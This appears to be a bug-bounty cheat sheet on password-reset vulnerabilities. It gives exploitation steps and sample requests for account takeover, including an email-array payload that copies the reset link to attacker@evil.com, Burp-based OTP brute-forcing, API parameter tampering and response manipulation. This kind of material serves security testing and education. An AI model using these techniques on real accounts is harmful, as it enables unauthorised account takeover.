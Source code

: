 Common security flaws in password reset functionality compiled from twitter, writeups, disclosed reports:




1. Password Reset Token Leak Via Referrer

The HTTP referer is an optional HTTP header field that identifies the address of the webpage which is linked to the resource being requested.
The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed 

Exploitation
    Request password reset to your email address
    Click on the password reset link
    Dont change password
    Click any 3rd party websites(eg: Facebook, twitter)
    Intercept the request in burpsuite proxy
    Check if the referer header is leaking password reset token.
    
    
    
    
2. Sending an array of email addresses instead of a single email address.

In this attack the The attacker can send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address and It could lead to full account takeover.

POST https://example.com/api/v1/password_reset HTTP/1.1
Original Request Body:
{“email_address”:”xyz@gmail.com”}
Modified Request Body:
{“email_address”:[“admin@breadcrumb.com”,”attacker@evil.com”]}

In this way, the password reset link get send to both victim as well as attacker. And the attacker can use it to gain Full account Takeover.




3. Bruteforcing OTP for Reseting Password.

  Now, In case The password reset functionality of application is based on OTP validation.
  Many program accepts No rate limit as acceptable risk. So, Bruteforcing OTP is worth trying.
  You can reset the password of an account by intercepting the request for OTP validation and bruteforcing the 6 digit number.
  Using this, it is possible to change and reset the password of any account, by changing the user data and brute-forcing the reset OTP.
  
    Exploitation
      1. Start the Burp Suite and Intercept the password reset request
      2.Send to intruder
      3.Use null payload
  
  
  
  
4. Full Account Takeover via Changing Email And Password of any User through API Parameters
Exploitation

    1. Attacker have to login with their account and Go to the Change password function
    2. Start the Burp Suite and Intercept the request
    3. After intercepting the request sent it to repeater and modify parameters Email and Password
      POST /api/changepass
      [...]
      ("form": {"email":"victim@email.tld","password":"12345678"})
      
      
      
5. Response manipulation: Replace Bad Response With Good One

Look for Request and Response like these
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)


      
      
